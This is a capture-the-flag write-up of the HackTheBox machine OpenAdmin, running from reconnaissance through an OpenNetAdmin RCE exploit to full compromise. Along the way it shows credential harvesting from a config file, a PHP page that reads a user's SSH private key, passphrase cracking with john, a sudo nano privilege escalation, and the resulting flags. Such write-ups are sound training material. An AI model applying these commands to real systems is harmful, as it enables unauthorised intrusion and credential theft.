


# OpenAdmin

Author: Ewaël

**OpenAdmin** is an easy HackTheBox box by dmw0ng.

`nmap -sC -sV 10.10.10.171 -v -A` shows ports 80 and 22 are open. Let's check the website first. It's only the Apache default page, so I use `dirb http://10.10.10.171` to find the entry point, which shows that `/music` exists.



I decide to login and successfully log as a guest on an *OpenNetAdmin* page.



After checking for possible exploits of this version, I find a RCE exploit. I download the script `exploit.sh` and use it with

```
./exploit.sh http://10.10.10.171/ona/
```

It gives me a shell as `www-data` but I can't move from `/opt/ona/www`. First of all `ls -all /home` shows me that two users exist: `jimmy` and `joanna`.

After searching in every directory in the working directory, I finally find something in `local/config/database_settings.inc.php`:

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I decide to use that password to log as `jimmy` with ssh, and it works but `jimmy` does not have the user flag. After moving around I go back to `/var/www` and I see I can access a new directory:

```
$ ls -all /var/www:
total 16
drwxr-xr-x  4 root     root     4096 Nov 22 18:15 .
drwxr-xr-x 14 root     root     4096 Nov 21 14:08 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22 15:59 html
drwxrwx---  2 jimmy    internal 4096 Nov 23 17:43 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21 16:07 ona -> /opt/ona/www
```

`internal` contains an interesting `main.php`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

I must connect to `/internal` and request `main.php` so it prints me `joanna` private RSA key, but it does not work on port 80. To find other ports with listening sockets I use `netstat -tulpn` and try every port, and it finally works with

```
curl http://127.0.0.1:52846/main.php
```

Now that I have `joanna`'s private key, I must have her passphrase. I crack it with john and the usual wordlist after transforming the key into a format john can work with:

```
$ python /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna_rsa_hash
```

It gives me the passphrase `bloodninjas`. I can now log as `joanna`:

```
ssh joanna@10.10.10.171 -i joanna_rsa
```

I get the user flag:

```
c9b2cf07d40807e62af62660f0c81b5f
```

The first thing I do is `sudo -l` which shows I can run `/bin/nano` on `/opt/priv` as root. So I just have to `sudo nano /opt/priv`, CTRL-R to open a file and open `/root/root.txt`:

`2f907ed450b361b2c2bf4e8795d5b561`
